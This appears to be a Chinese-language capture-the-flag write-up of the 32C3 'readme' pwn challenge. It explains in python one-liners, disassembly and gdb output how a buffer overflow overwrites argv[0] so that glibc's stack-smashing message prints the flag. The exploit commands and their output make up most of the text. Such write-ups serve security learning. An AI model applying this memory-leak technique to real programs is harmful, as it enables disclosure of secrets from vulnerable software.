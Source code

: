  ```java 
  pwn@pwn-PC:~/Desktop$ python -c 'print "A"*536+__import__("struct").pack("<Q",0x600d20)+"\n"+'|./readme.bin
Hello!
What's your name? Nice to meet you, AAAAAAA.....
Please overwrite the flag: Thank you, bye!
*** stack smashing detected ***:   terminated


  ``` 
  
没有成功，再看代码逻辑。 
 
 ```java 
     0x40083f:    call   0x4006a0 <_IO_getc@plt>
   0x400844:    cmp    eax,0xffffffff
   0x400847:    je     0x40089f
   0x400849:    cmp    eax,0xa
   0x40084c:    je     0x400860
   0x40084e:    mov    BYTE PTR [rbx+0x600d20],al
   0x400854:    add    rbx,0x1
   0x400858:    cmp    rbx,0x20
   0x40085c:    jne    0x400838


  ``` 
  
这是第二次输入的汇编部分，其中执行了mov BYTE PTR [rbx+0x600d20],al(此时rbx = 0)，也就是byte_600D20[v0++] = v1，这就把byte_600D20变量循环覆盖掉，如下： 
 
 ```java 
  pwn@pwn-PC:~/Desktop$ python -c 'print "A"*536+__import__("struct").pack("<Q",0x600d20)+"\n"+"BBBB"'|./readme.bin
Hello!
What's your name? Nice to meet you, AAAAAAA.....
Please overwrite the flag: Thank you, bye!
*** stack smashing detected ***: BBBB terminated


  ``` 
  
但是当ELF文件比较小的时候，它的不同区段可能会被多次映射，在ELF内存映射的时候，bss段会被映射两次，也就是说flag有备份，我们可以使用另一处的地址进行输出，如下： 
 
 ```java 
  gdb-peda$ find 32C3
Searching for '32C3' in: None ranges
Found 2 results, display max 2 items:
readme.bin : 0x400d20 ("32C3_TheServerHasTheFlagHere...")
readme.bin : 0x600d20 ("32C3_TheServerHasTheFlagHere...")


  ``` 
  
此时选择0x400d20进行构造payload即可成功打印出来。 
 
 ```java 
  pwn@pwn-PC:~/Desktop$ python -c 'print "A"*536+__import__("struct").pack("<Q",0x400d20)+"\n"'|./readme.bin
Hello!
What's your name? Nice to meet you, AAAAAAAA....
Please overwrite the flag: Thank you, bye!
*** stack smashing detected ***: 32C3_TheServerHasTheFlagHere... terminated
段错误


  ``` 
  